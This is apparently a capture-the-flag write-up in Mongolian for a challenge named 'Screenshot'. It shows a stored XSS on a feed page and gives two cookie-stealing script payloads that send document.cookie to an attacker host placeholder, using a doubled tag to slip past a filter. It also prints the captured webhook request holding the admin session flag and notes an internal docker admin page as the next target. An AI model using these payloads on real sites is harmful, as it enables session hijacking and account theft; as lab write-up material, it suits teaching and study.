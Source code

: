 ## Screenshot-1

http://ip/1337:/feed.php
XSS өртөмтгий байх амархан шалгаж болно. 

```
<sscriptcript> new Image().src="http://<ATTACKERIP>:<port>/?"+document.cookie; </sscriptcript>
```

эсвэл
```
<sscriptcript>document.write('<img src="http://ATTACKERIP/?'+document.cookie+'" />')</sscriptcript>
```

ирсэн хүсэлтийг шалгавал

```
request: https://webhook.site/ef1e3938-3e7a-49e6-bac0-09cb98fbf017?c=PHPSESSID%3DHZ%7Bye%40h_admin_cook1e_and_fl%40g_0f_ScreenShot_1%7D
parameter:   	PHPSESSID=HZ{ye@h_admin_cook1e_and_fl@g_0f_ScreenShot_1}
```
```
Headers
connection: close
host: 	webhook.site
accept-language: 	en,*
accept-encoding: 	gzip, deflate
accept: 	*/*
user-agent: 	Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
referer:	http://screen/god-wisper.php
content-length: 	
content-type:	
```


## Screenshot-2

зөвхөн дотоод IP хандана уу гэсэн байх бөгөөд. XSS ээр авсан хүсэлтийг дахиж харвал. 
referer:	http://screen/god-wisper.php гэж байгаа
http://screen/ гэдэг нь docker ийн дотоод хаяг гэж харж болхоор байна. иймд http://screen/admin.php -н screenshot -г харвал. 
flag гарж ирнэ. 

